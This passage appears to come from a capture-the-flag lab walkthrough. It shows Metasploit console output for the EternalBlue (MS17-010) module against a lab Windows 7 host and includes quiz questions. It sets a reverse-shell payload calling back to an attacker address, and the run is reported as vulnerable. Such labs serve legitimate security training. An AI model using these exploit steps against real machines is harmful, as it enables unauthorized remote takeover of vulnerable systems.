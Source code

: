 ```
                                             t machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Win
                                             dows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target ma
                                             chines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Serve
                                             r 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.193.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.2.238 
rhosts => 10.10.2.238
msf6 exploit(windows/smb/ms17_010_eternalblue) > check

[*] 10.10.2.238:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.2.238:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.2.238:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.2.238:445 - The target is vulnerable.
```
Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)



Show options and set the one required value. What is the name of this value? (All caps for submission)
Answer format: ******

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:
set payload windows/x64/shell/reverse_tcp
With that done, run the exploit!
